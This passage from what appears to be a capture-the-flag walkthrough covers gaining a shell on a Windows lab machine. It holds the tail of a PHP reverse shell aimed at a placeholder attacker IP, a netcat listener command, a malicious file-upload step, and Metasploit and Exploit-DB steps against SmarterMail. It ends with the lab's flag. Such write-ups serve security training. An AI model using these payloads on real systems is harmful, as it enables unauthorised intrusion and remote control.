                                if (in_array($pipes[2], $streams['read'])) { $this->rw($pipes[2], $socket  , 'STDERR', 'SOCKET'); } // read from STDERR and write to SOCKET
                                if (in_array($pipes[1], $streams['read'])) { $this->rw($pipes[1], $socket  , 'STDOUT', 'SOCKET'); } // read from STDOUT and write to SOCKET
                            } else if ($this->os === 'WINDOWS') {
                                // order is important
                                if (in_array($socket, $streams['read'])/*------*/) { $this->rw ($socket  , $pipes[0], 'SOCKET', 'STDIN' ); } // read from SOCKET and write to STDIN
                                if (($fstat = fstat($pipes[2])) && $fstat['size']) { $this->brw($pipes[2], $socket  , 'STDERR', 'SOCKET'); } // read from STDERR and write to SOCKET
                                if (($fstat = fstat($pipes[1])) && $fstat['size']) { $this->brw($pipes[1], $socket  , 'STDOUT', 'SOCKET'); } // read from STDOUT and write to SOCKET
                            }
                        }
                    } while (!$this->error);
                    // ------ WORK END ------

                    foreach ($pipes as $pipe) {
                        fclose($pipe);
                    }
                    proc_close($process);
                }
                // ------ SHELL END ------

                fclose($socket);
            }
            // ------ SOCKET END ------

        }
    }
}
echo '<pre>';
// change the host address and/or port number as necessary
$sh = new Shell(<OUR ATTACKER MACHINE IP>, <PORT THAT TARGET WILL USE TO CONNECT TO OUR ATTACKER MACHINE>);
$sh->run();
unset($sh);
// garbage collector requires PHP v5.3.0 or greater
// @gc_collect_cycles();
echo '</pre>';
?>
```

For this to work, we need to have a listener open on our machine. So we can use
the Netcat command to open a listener on our machine

```bash
nc -lnvp port
```

- `-l`: This switch tells nc to operate in listening mode, which means it will
  listen for incoming connections rather than initiating connections.
- `-n`: This switch tells nc not to perform DNS resolution on any incoming
  addresses. This can speed up the operation, especially when dealing with IP
  addresses instead of domain names.
- `-v`: This switch enables verbose mode, which provides more detailed output,
  including information about incoming connections and data transfer.
- `-p` port: This switch specifies the port number on which nc should listen
  for incoming connections.

#### After picking an option

Which ever option you chose, now we need to get it to run on the target machine.
To do this we first have to put our payload into a php file.

> Note the file need to be a `PHP` and not a `txt` file.

After we have our php file, all we need to do is to upload the file and after
the upload is done. The site told us where the file that we have uploaded have
been place on the website. So now we can use that path to navigate to the
`../../hackable/uploads/payload.php` file. Once we navigate to the payload
file, it will run.




Once you are in the system. Now we can move on to [Getting the Flag](#getting-the-flag)

### HTTP Port 9998 Smartermail

There are two ways you can exploit this smartermail services.

1. With Metasploit
2. manual exploit

#### Metasploit

To start with Metasploit we have to launch Metasploit. This can be done with:

```bash
msfconsole
```

now have to find an exploit for smartermail. using the following commmand:

```bash
search smartermail
```

You will get the following



now using the `use 0` command will select the smartermail exploit. To see what
we need to set to exploit the smartermail, We can use the `Show options` 
command

```bash
msf6 exploit(windows/http/smartermail_rce) > show options

Module options (exploit/windows/http/smartermail_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   ENDPOINT   Servers          yes       Choose one of three exposed endpoints: Servers, Spool, and Mail. Example - tcp://127.0.0.1:17001/Servers
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      9998             yes       SmarterMail default HTTP port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   TCP_PORT   17001            yes       SmarterMail default .NET remoting port
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/windows/powershell/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Command


View the full module info with the info, or info -d command.
```

Looks like we need to change RHOSTS and LHOST with the `set` command. 

Example

```bash
set RHOSTS <IP>
```

Now that we have our settings set. Now we can exploit the machine with the 
`exploit` command 



Now that we are in the system now we can look around and [get the flag](#getting-the-flag)

#### Manual Exploitation

Manual Exploitation is more involved than using metasploit.
First thing we need to do is to install the exploit.
there are two way to can install the exploit one is being to open a web browser
and then going to this site https://www.exploit-db.com/exploits/49216 and ether
copying it into a python file or downloading it.
Another options is to use the `wget` command to install it.

> This exploit need python, If your using kali you should be fine.

```bash
wget https://www.exploit-db.com/exploits/49216
```

after install the exploit. and use the `cat` command we notice that we have to
change this part in the exploit.

```
HOST='192.168.1.1'
PORT=17001
LHOST='192.168.1.2'
LPORT=4444
```

you can use any text editor. To change it
we are going to change it to this.

```
HOST='<Target IP>'
PORT=17001
LHOST='<Our attack machine IP>'
LPORT=5757
```

* HOST  - is the machine we want to use the exploit on, AKA the target.
* PORT  - is the port that the exploit will used.
* LHOST - is the IP that the target will used to connect back to our attacker
  machine.
* LPORT - is the port that the target used to connect to our attack machine.

Atfer we change the parts that we need to change we can now run the exploit on
the target.

```bash
python3 ./49216.py
```

> You need to be in the same directory as the python file.

## Getting The Flag

Which ever method you used, now all you have to do is to used `dir` command to
list everything the current directory and use the `cd` command to change
directory. Since this is a windows box, We should check the `C:\Users\` to see
what users are on this computer. When we `dir` the `C:\Users` directory we can
see the billy user folder. And with further digging when we dir the
`C:\Users\billy\Desktop\` we can see the `Flag.txt` and when we used the `type`
command we can see the following.

```
ZTW{WINDOWSvdgworuwzuxdryzlcegqpsrxdjmzihfj}
```

Now that we have the flag all we need to do is to go to the leader board and
submit the flag.
